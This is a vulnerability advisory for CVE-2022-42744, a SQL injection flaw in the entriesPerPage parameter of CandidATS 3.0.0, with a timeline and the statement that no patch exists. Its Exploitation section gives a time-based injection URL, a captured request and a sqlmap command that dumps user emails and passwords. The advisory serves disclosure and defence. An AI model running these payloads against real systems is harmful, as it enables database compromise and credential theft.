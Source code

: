 ```yaml
---
slug: advisories/mohawke/
title: CandidATS 3.0.0 - SQLi via entriesPerPage
authors: Carlos Bello
writer: cbello
codename: mohawke
product: CandidATS 3.0.0 - SQLi via entriesPerPage
date: 2022-10-25 18:30 COT
cveid: CVE-2022-42744
severity: 8.8
description: CandidATS 3.0.0      -     SQLi via entriesPerPage
keywords: Fluid Attacks, Security, Vulnerabilities, Candid ATS, Sql Injection
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | CandidATS 3.0.0 - SQLi via entriesPerPage                          |
| **Code name**         | [Mohawke](https://en.wikipedia.org/wiki/Hudson_Mohawke)            |
| **Product**           | CandidATS                                                          |
| **Affected versions** | Version 3.0.0                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-25                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | SQL injection                                                                                                               |
| **Rule**              | [146. SQL injection](https://docs.fluidattacks.com/criteria/vulnerabilities/146)                                            |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 8.8                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-42744](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-42744)                                             |

## Description

CandidATS version 3.0.0 allows an external attacker to perform CRUD
operations on the application databases. This is possible because the
application does not correctly validate the `entriesPerPage` parameter
against SQLi attacks.

## Vulnerability

The SQLi present in CandidATS 3.0.0 allows an unauthenticated remote
attacker to perform CRUD operations on the application database. To
trigger this vulnerability, we will need to send a malicious SQL query
in the `entriesPerPage` parameter.

* https://demo.candidats.net/ajax.php?f=getPipelineJobOrder&joborderID=50&page=0&entriesPerPage=15+AND+sleep(5)--+&sortBy=dateCreatedInt&sortDirection=desc&indexFile=index.php&isPopup=0

## Exploitation

In this attack we will obtain the logs containing the emails and passwords
of the users. To achieve this we will need 3 things:

### candidATS.req

The request of the application, we save it in a file.

```txt
GET /ajax.php?f=getPipelineJobOrder&joborderID=50&page=0&entriesPerPage=15&sortBy=dateCreatedInt&sortDirection=desc&indexFile=index.php&isPopup=0 HTTP/2
Host: demo.candidats.net
Cookie: CATS=1eiuqu2acq6t6tcguhcof52eha
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
```

### SqlMap Command

By executing this command, we will obtain the records of our interest.

```bash
sqlmap -r candidATS.req -p entriesPerPage -D prfkvqsyht -T user -C email,password --dump
```

### Dump DB

Finally we see how we managed to compromise user records.

![image](https://user-images.githubusercontent.com/51862990/197896631-7b6244a0-dc45-4816-a2e2-578d22d3ac31.png)

## Our security policy

We have reserved the CVE-2022-42744 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: CandidATS 3.0.0

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://candidats.net/>

## Timeline

<time-lapse
  discovered="2022-10-07"
  contacted="2022-10-07"
  replied="2022-10-07"
  confirmed="2022-10-07"
  patched=""
  disclosure="2022-10-25">
</time-lapse>
